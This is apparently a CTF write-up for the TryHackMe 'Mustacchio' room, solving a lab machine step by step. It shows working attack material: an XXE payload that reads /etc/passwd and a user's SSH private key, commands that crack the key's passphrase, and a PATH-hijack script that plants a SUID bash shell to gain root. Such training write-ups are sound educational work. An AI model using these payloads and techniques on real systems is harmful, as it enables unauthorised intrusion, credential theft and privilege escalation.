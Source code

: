 # Mustacchio walkthrough

![image](https://user-images.githubusercontent.com/5285547/121743836-e0ac7c80-caf9-11eb-8112-a3e7e5a189bc.png)

[Room Link](https://tryhackme.com/room/mustacchio)

## Enumeration

### Nmap
```bash
nmap -p- -v 10.10.68.59
```

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8765/tcp open  ultraseek-http

```

### Gobuster 

```bash
gobuster dir -u http://10.10.68.59  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```
http://10.10.68.59/
```bash
/gallery.html         (Status: 200) [Size: 1950]
/index.html           (Status: 200) [Size: 1752]
/images               (Status: 301) [Size: 311] [--> http://10.10.68.59/images/]
/contact.html         (Status: 200) [Size: 1450]                                
/blog.html            (Status: 200) [Size: 3172]                                
/about.html           (Status: 200) [Size: 3152]                                
/custom               (Status: 301) [Size: 311] [--> http://10.10.68.59/custom/]
/robots.txt           (Status: 200) [Size: 28]                                  
/fonts                (Status: 301) [Size: 310] [--> http://10.10.68.59/fonts/] 
```
http://10.10.68.59/custom/
```bash
/css                  (Status: 301) [Size: 315] [--> http://10.10.68.59/custom/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.68.59/custom/js/]
```
http://10.10.68.59/custom/js/
```bash
/users.bak            (Status: 200) [Size: 8192]
/mobile.js            (Status: 200) [Size: 1470]
```

Here I found a users.bak file.  
I downloaded it to check the contents.  
It looked to be a mysql or database command for creating a new user

![image](https://user-images.githubusercontent.com/5285547/121745773-be682e00-cafc-11eb-951c-aff68f56f379.png)

We have a username: Admin 

http://10.10.68.59:8765/
```bash
/home.php             (Status: 302) [Size: 1993] [--> ../index.php]
/index.php            (Status: 200) [Size: 1363]                   
/assets               (Status: 301) [Size: 194] [--> http://10.10.68.59:8765/assets/]
/auth                 (Status: 301) [Size: 194] [--> http://10.10.68.59:8765/auth/] 
```

## Website's (port 80, 8765)

### Port 80

![image](https://user-images.githubusercontent.com/5285547/121744541-f9696200-cafa-11eb-9b2f-eeb05996505d.png)

This portal contains a blog for "mustacchio" brand for all mankind!  
Checking the webpages source code revealed nothing, but i noted a mobile.js script file included.  
Pressing F12 and using the developer console. I looked at the source code for the mobile.js file. 

![image](https://user-images.githubusercontent.com/5285547/121744888-7b598b00-cafb-11eb-8b8d-6741f1d9b90b.png)

I see some md5 at the bottom of the source code so try it on https://crackstation.net/  

![image](https://user-images.githubusercontent.com/5285547/121745099-d55a5080-cafb-11eb-852e-bb56347012c3.png)

Now we have a username and password but nowhere to use them!?

### Port 8765

http://10.10.68.59:8765/

This page presents us with what we need for our credentials, a login page. 

![image](https://user-images.githubusercontent.com/5285547/121746171-5d8d2580-cafd-11eb-9c70-328eff1493a4.png)

## XML

After logging in, we get presented with this page

![image](https://user-images.githubusercontent.com/5285547/121746302-94633b80-cafd-11eb-8967-24ee1bc995f4.png)

Pressing the submit button causes a pop-up box to appear

![image](https://user-images.githubusercontent.com/5285547/121746351-ad6bec80-cafd-11eb-9b68-e51cd7b0a08b.png)

Like it said to, inject some XML!  
I got a payload from the internet here: https://github.com/payloadbox/xxe-injection-payload-list  
After injection, some text appeared at the bottom of the page, indicating some structure needed for the XML.

![image](https://user-images.githubusercontent.com/5285547/121746652-1d7a7280-cafe-11eb-88c7-e39980cafe3f.png)

Checking our payload sent.

```xml
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

Then noting the response we got, which was "Comment Preview, Name, Author, Comment". I built a similar XML element with a root tag.

```xml
<!--?xml version="1.0" ?-->
<root>
 <commentPreview>John</commentPreview>
 <name>Doe</name>
 <author>Doe</author>
 <comment>John</comment>
</root>
```

Injecting this into the page left me with better results. 

![image](https://user-images.githubusercontent.com/5285547/121747164-dd67bf80-cafe-11eb-937a-bb120221768d.png)

Lets try to get a file next /etc/passwd as the usual test

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<root>
 <commentPreview>John</commentPreview>
 <name>&ent;</name>
 <author>Doe</author>
 <comment>John</comment>
</root>
```
![image](https://user-images.githubusercontent.com/5285547/121747279-13a53f00-caff-11eb-95b2-48b44ee149e2.png)

While I was in the source code I see a comment and some code above to give a few more hints about what to do next. 

![image](https://user-images.githubusercontent.com/5285547/121747510-6e3e9b00-caff-11eb-90a9-27f73d59beeb.png)

We can ssh as Barry but we need his id_rsa key. Using the file inclusion method above, I was able to get his id_rsa.
But, it was locked with a password..

![image](https://user-images.githubusercontent.com/5285547/121747692-b5c52700-caff-11eb-9a2a-fadcbfe6a5c3.png)

Time to get john out for a cracking good time! 

```bash
find / -name ssh2john* 2>/dev/null
python ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/5285547/121747920-03da2a80-cb00-11eb-9a14-3d7389bcb601.png)

## User

Now we can log in as Barry with his password and get our first flag!

```bash
ssh barry@10.10.68.59 -i id_rsa
```

![image](https://user-images.githubusercontent.com/5285547/121748244-8bc03480-cb00-11eb-8825-a385e9074344.png)

![image](https://user-images.githubusercontent.com/5285547/121748305-a2ff2200-cb00-11eb-93b9-6c121b69bcc1.png)

## Root

Looking around the system I found a strange file in Joe's home file (ELF) called "live_log", 
I check it with strings to see what it may be doing.
We can see the tail binary being called but its path is not absolute! Running the file

![image](https://user-images.githubusercontent.com/5285547/121748473-f1acbc00-cb00-11eb-89a4-f9b57c88396c.png)

```
./live_log
```
I checked the system processes. The file was being run as root.

Knowing a file can be abused using path manipulation, I set about making a file that would be running when the "live_log" was run. 

```bash
cd /tmp
```
```bash
nano tail
#/!bin/bash
cp /bin/bash /tmp/b
chmod u+s /tmp/b
```

Save the file and then enter the next commands so we can run the executable. Then set the path to /tmp first to call our file before the real tail file. 
```bash
chmod +x tail
export PATH=/tmp:$PATH
```

Now we can run and get our last flag.
```bash
/tmp/b -p
```

![image](https://user-images.githubusercontent.com/5285547/121749233-3ab14000-cb02-11eb-9d97-5d8f5f3d6688.png)


Thanks and happy hacking! :)




